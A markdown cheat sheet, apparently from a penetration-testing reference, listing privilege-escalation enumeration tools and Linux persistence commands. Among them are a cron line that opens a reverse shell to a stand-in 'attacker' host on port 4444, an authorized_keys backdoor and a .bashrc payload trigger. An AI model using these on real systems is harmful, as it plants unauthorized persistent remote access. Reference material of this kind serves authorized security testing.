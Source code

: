 ## Automated Enumeration Tools

### Linux Enumeration Scripts

| Tool | Command | Description |
|------|---------|-------------|
| `LinEnum` | `./LinEnum.sh` | Comprehensive Linux enumeration |
| `linux-smart-enumeration` | `./lse.sh` | Smart Linux enumeration |
| `linux-exploit-suggester` | `./linux-exploit-suggester.sh` | Kernel exploit suggestions |
| `LinuxPrivChecker` | `python linuxprivchecker.py` | Python-based enumeration |

### Windows Enumeration Tools

| Tool | Command | Description |
|------|---------|-------------|
| `PowerUp` | `powershell -ep bypass -c ". .\PowerUp.ps1; Invoke-AllChecks"` | PowerShell privilege escalation |
| `Sherlock` | `powershell -ep bypass -c ". .\Sherlock.ps1; Find-AllVulns"` | Vulnerability scanner |
| `Watson` | `Watson.exe` | .NET vulnerability scanner |
| `Seatbelt` | `Seatbelt.exe -group=all` | Security-focused enumeration |

### Cross-Platform Tools

| Tool | Platform | Description |
|------|----------|-------------|
| `PEASS-ng` | Linux/Windows/macOS | Comprehensive privilege escalation |
| `BeRoot` | Linux/Windows | Automated root detection |
| `GTFOBins` | Linux | Binary exploitation database |
| `LOLBAS` | Windows | Living off the land binaries |

## Post-Exploitation Techniques

### Persistence Mechanisms

#### Linux Persistence

| Method | Command | Description |
|--------|---------|-------------|
| `SSH Keys` | `echo "ssh-rsa AAAA..." >> ~/.ssh/authorized_keys` | Add SSH key |
| `Cron Jobs` | `(crontab -l; echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker/4444 0>&1'") \| crontab -` | Reverse shell cron |
| `Systemd Service` | Create malicious service file | Persistent service |
| `Bashrc` | `echo "payload" >> ~/.bashrc` | Login trigger |
